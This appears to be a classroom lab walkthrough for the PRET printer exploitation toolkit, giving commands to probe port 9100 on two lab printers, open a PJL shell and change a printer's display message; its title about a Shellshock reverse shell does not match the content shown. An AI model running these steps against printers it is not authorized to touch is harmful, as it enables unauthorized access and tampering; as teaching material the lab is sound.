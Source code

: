 ## Getting a Reverse Shell via Shellshock Attack

### Background

Why printer hacking: read this article first:
https://www.theverge.com/2018/11/30/18119576/pewdiepie-printer-hack-t-series-youtube

### Setup

One VM only.

### Steps

Pret stands for PRinter Exploitation Toolkit.

1. get the source code from github:

```console
git clone https://github.com/RUB-NDS/PRET
```

2. go inside the PRET directory:

```console
cd PRET
```

3. install necessary modules:

```console
sudo pip install colorama pysnmp
```

4. select a targeted printer (IP: either 10.29.2.31, or 10.29.2.45), test if the printer has port 9100 open: 

```console
telnet printerIP 9100 (You will see "Connection refused" if not open)
```

5. Now that you are in the PRET directory, run the script to establish a connection between you and the printer: ./pret.py printerIP pjl

```console
[05/18/22]seed@VM:~/PRET$ ./pret.py 10.29.2.31 pjl
      ________________                                             
    _/_______________/|                                            
   /___________/___//||   PRET | Printer Exploitation Toolkit v0.40
  |===        |----| ||    by Jens Mueller <jens.a.mueller@rub.de> 
  |           |   ô| ||                                            
  |___________|   ô| ||                                            
  | ||/.´---.||    | ||      「 pentesting tool that made          
  |-||/_____\||-.  | |´         dumpster diving obsolete‥ 」       
  |_||=L==H==||_|__|/                                              
                                                                   
     (ASCII art by                                                 
     Jan Foerster)                                                 
                                                                   
Connection to 10.29.2.31 established
Device:   HP LaserJet M606

Welcome to the pret shell. Type help or ? to list commands.
10.29.2.31:/> 
```

```console
[05/18/22]seed@VM:~/PRET$ ./pret.py 10.29.2.45 pjl
      ________________                                             
    _/_______________/|                                            
   /___________/___//||   PRET | Printer Exploitation Toolkit v0.40
  |===        |----| ||    by Jens Mueller <jens.a.mueller@rub.de> 
  |           |   ô| ||                                            
  |___________|   ô| ||                                            
  | ||/.´---.||    | ||      「 pentesting tool that made          
  |-||/_____\||-.  | |´         dumpster diving obsolete‥ 」       
  |_||=L==H==||_|__|/                                              
                                                                   
     (ASCII art by                                                 
     Jan Foerster)                                                 
                                                                   
Connection to 10.29.2.45 established
Device:   Receiving data failed (watchdog timeout)
                        
Welcome to the pret shell. Type help or ? to list commands.
10.29.2.45:/> 
```

6. Change the display message: 

```console
10.29.2.45:/> display Game Over
Setting printer's display message to "Game Over"
```

This will change the printer display message to "Game Over...".

7. You can then type quit to exit:

```console
10.29.2.45:/> quit
```
